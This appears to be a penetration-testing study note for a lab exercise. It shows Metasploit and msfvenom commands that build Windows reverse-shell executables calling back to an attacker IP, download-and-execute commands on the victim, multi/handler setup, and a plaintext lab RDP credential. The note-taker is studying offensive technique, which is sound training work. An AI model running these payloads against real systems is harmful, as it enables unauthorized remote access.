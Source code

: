 We should always attempt to obtain an initial foothold with a raw TCP shell and then deploy a Meterpreter shell as soon as we have disabled or bypassed potential security technologies.

### Executable Payloads

Metasploit lets us export payloads into various file types, such as Windows and Linux binaries, web shells, and more. Msfvenom is a standalone tool that generates such payloads.

```
192.168.249.202
```

Create a malicious Windows binary starting a raw TCP reverse shell:

```console
$ msfvenom -l payloads --platform windows --arch x64

windows/x64/shell/reverse_tcp               Spawn a piped command shell (Windows x64) (staged). Connect back to the attacker (Windows x64)
...
windows/x64/shell_reverse_tcp               Connect back to attacker and spawn a command shell (Windows x64)

// see staged vs non staged above

$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.198 LPORT=443 -f exe -o nonstaged.exe
```

Start a netcat listening on 443, python3 web server on port 80, and connect to BRUTE2 via RDP with user justin and password SuperS3cure1337#.

```console
PS justin> iwr -uri http://192.168.45.198/nonstaged.exe -Outfile nonstaged.exe

PS justin> .\nonstaged.exe
```

You should have a shell in your Kali nc listener now.

Let's try a staged payload to do ths same.

```console
$ msfvenom -p windows/x64/shell/reverse_tcp LHOST=192.168.45.198 LPORT=443 -f exe -o staged.exe

PS justin> iwr -uri http://192.168.45.198/nonstaged.exe -Outfile staged.exe

PS justin> .\staged.exe
```

We can't execute any commands from this. We need to use Metasploit's multi/handler module to receive the incoming connection from staged.exe.

```console
msf6 exploit(multi/http/apache_normalize_path_rce) > use multi/handler
[*] Using configured payload generic/shell_reverse_tcp

msf6 exploit(multi/handler) > set payload windows/x64/shell/reverse_tcp
payload => windows/x64/shell/reverse_tcp

msf6 exploit(multi/handler) > show options
...
Payload options (windows/x64/shell/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST                      yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port
...

```